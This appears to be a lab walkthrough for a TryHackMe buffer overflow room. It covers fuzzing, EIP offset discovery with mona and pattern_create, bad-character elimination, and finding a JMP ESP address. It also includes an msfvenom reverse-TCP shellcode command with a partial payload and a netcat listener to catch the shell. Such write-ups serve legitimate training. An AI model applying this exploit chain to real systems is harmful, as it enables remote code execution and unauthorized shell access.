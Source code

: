 ## Stack Based Buffer Overflow Walkthrough
I will be using Tib3rius's Buffer Overflow Prep on TryHackMe for practise. Link to room: https://tryhackme.com/room/bufferoverflowprep

## Mona Configuration
Run the following command on Immunity Debugger to make the process easier:
```
!mona config -set workingfolder c:\mona\%p
```
## Fuzzing
Open the application you are targetting on Immunity Debugger and hit start
Run fuzzer.py to identify the point that causes the application to crash
Note down the crash point of the application
Offset
To identify the offset to the EIP address, we can generate a string with the pattern_create module from Metasploit. Add 40 to the crash point found.
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [crash point + 40]
```
Then,

Copy the output and place it in the payload variable of exploit.py.
Run the script and it should crash the application again.
Change the distance to the same length of the pattern you created and run the command on Immunity Debugger:
```
!mona findmsp -distance  [crash point + 40]
```
Mona will display the output of the command, or click "Window" menu and then "Log data" to view it. Find a line that states EIP contains normal pattern : ... (offset XXXX) Note down the offset and make the following changes to exploit.py script:

Update the offset variable
Set the payload variable to an empty string
Set the retn variable to BBBB
Restart the application in Immunity Debugger and run the modified script. The EIP register should now be overwritten with B's: 42424242

## Finding Bad Characters
Using Mona, we can generate a byte array and exclude the null byte,\x00, by default. Execute the following command:
```
!mona bytearray -b "\x00"
```
Then, follow these steps:

Execute badchars.py to generate a string of bad chars from \x01 to \xff.
Update exploit.py and set the payload variable to the string created.
Restart the application in Immunity Debugger and run the script again.
Copy the address to which the ESP register points and use it in the following command:
```
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```
A mona Memory comparison results window will appear indicating the characters that are different in memory to what they are in the generated bytearray.bin file. Not all of these might be bad characters as sometimes:

Bad characters cause the next byte to get corrupted
Bad characters cause the rest of the string to get corrupted
Make a note of the bad characters and do the following:

Generate a new byte array in mona, specifying these new bad characters along with \x00
Remove the new bad characters in the payload variable in exploit.py
Restart the application in Immunity Debugger and run the script again. Repeat the process until the results status returns Unmodified. This indicates that there are no more bad characters.

## Finding a JMP point
Run the following command in Immunity Debugger with the application running or in a crashed state. Ensure that all the bad characters identified are added in.
```
!mona jmp -r esp -cpb "\x00"
```
The results should display in the 'Log data' window. Choose an address and update it in exploit.py by setting the retn variable to the address written backwards. For example, if the address found is \x01\x02\x03\x04, write \x04\x03\x02\x01 in exploit.py.

## Generate a Payload
We can finally generate our shellcode excluding the bad characters found:
```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```
Insert the string added to the payload variable in exploit.py in the following format:

```
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
...
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```
Ensure to place an open bracket at the start, and a close bracket at the end.

## Prepend NOPs
An encoder was used to generate the payload. Thus, some space in memory is needed for the payload to unpack itself. Ensure this happens by assigning the following string to the padding variable:
```
padding = "\x90" * 16
```
Exploit
Start a Netcat listener on Kali
Restart the application in Immunity Debugger
Run exploit.py
You should catch a reverse shell!
